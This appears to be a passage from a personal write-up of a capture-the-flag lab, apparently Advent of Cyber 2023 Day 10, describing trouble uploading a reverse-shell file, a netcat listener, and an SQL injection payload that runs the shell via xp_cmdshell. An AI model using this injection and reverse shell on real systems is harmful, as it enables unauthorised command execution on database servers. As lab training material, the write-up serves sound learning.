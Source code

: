    ##
   **Unfortunately, I am getting errors when trying to transfer the file. Although it seems to send a request to the python server, executing the file doesn't seem to give me a connection.**
   ##
   
   ![Gift Upload Error](Pictures/Advent_Of_Cyber_2023_D10_Gift_Upload_Error.png)

   I had to use the attack box instead to upload the shell. This did work without any errors.

   ![Gift Upload](Pictures/Advent_Of_Cyber_2023_D10_Gift_Upload.png)

   I wanted to see if only the transfer of the file was problematic. So I setup a listener on my kali box using:

   ```cmd
   nc -nlvp 1337
   ```

   I re-created the shell on the attack box using the IP and port for my kali box uploaded it and executed the file from the server using:

   ```cmd
   '; EXEC xp_cmdshell 'C:\Windows\Temp\gift.exe';--
   ```

   ![Shell Connection](Pictures/Advent_Of_Cyber_2023_D10_Shell_Connection.png)
